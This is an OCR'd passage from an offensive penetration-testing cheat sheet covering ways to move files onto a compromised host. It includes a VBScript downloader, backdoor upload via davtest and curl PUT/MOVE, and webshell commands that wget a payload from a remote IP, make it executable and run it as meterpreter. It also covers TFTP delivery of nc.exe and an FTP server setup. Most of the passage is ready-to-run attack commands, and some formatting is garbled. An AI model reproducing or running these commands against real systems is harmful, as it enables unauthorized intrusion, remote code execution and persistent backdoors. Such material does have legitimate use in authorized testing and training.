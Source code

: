 timeout 1\
echo with bStrm >> webdl.vbs\
timeout 1\
echo .type = 1 ' >> webdl.vbs\
timeout 1\
echo .open >> webdl.vbs\
timeout 1\
echo .write xHttp.responseBody >> webdl.vbs\
timeout 1\
echo .savetofile "C:\\temp\\windows-privesc-check2.exe", 2 ' >> webdl.vbs\
timeout 1\
echo end with >> webdl.vbs\
timeout 1\
echo\
The file can be run using the following syntax:\
C:\\temp\\cscript.exe webdl.vbs

- Mounting File Shares

    - Mount NFS share to /mnt/nfs mount $ip:/vol/share /mnt/nfs

- HTTP Put nmap -p80 $ip –script http-put –script-args http-put.url=‘/test/sicpwn.php’,http-put.file=’/var/www/html/sicpwn.php

- Uploading Files

    - SCP\
scp username1@source_host:directory1/filename1 username2@destination_host:directory2/filename2\
scp localfile username@$ip:~/Folder/~\
~scp Linux_Exploit_Suggester.pl~ [~bob@192.168.1.10~](mailto:bob@192.168.1.10)~:~

    - Webdav with Davtest- Some sysadmins are kind enough to enable the PUT method - This tool will auto upload a backdoor\
davtest -move -sendbd auto -url <http://$ip>\
[https://github.com/cldrn/davtest](https://github.com/cldrn/davtest)\
You can also upload a file using the PUT method with the curl command:\
curl -T 'leetshellz.txt' '<http://$ip>'\
And rename it to an executable file using the MOVE method with the curl command:\
curl -X MOVE --header 'Destination:<http://$ip/leetshellz.php>' '<http://$ip/leetshellz.txt'>

    - Upload shell using limited php shell cmd use the webshell to download and execute the meterpreter \[curl -s –data “cmd=wget [http://174.0.42.42:8000/dhn](http://174.0.42.42:8000/dhn) -O /tmp/evil” [http://$ip/files/sh.php](http://$ip/files/sh.php) \[curl -s --data "cmd=chmod 777 /tmp/evil" [http://$ip/files/sh.php](http://$ip/files/sh.php) curl -s –data “cmd=bash -c /tmp/evil” [http://$ip/files/sh.php](http://$ip/files/sh.php) 

    - TFTP mkdir /tftp atftpd –daemon –port 69 /tftp cp /usr/share/windows-binaries/nc.exe /tftp/ EX. FROM WINDOWS HOST: C:>tftp -i $ip get nc.exe

    - FTP apt-get update && apt-get install pure-ftpd\
\#!/bin/bash groupadd ftpgroup useradd -g ftpgroup -d /dev/null -s /etc ftpuser pure-pw useradd offsec -u ftpuser -d /ftphome pure-pw mkdb cd /etc/pure-ftpd/auth/ ln -s ../conf/PureDB 60pdb mkdir -p /ftphome chown -R ftpuser:ftpgroup /ftphome/\
/etc/init.d/pure-ftpd restart

- Packing Files
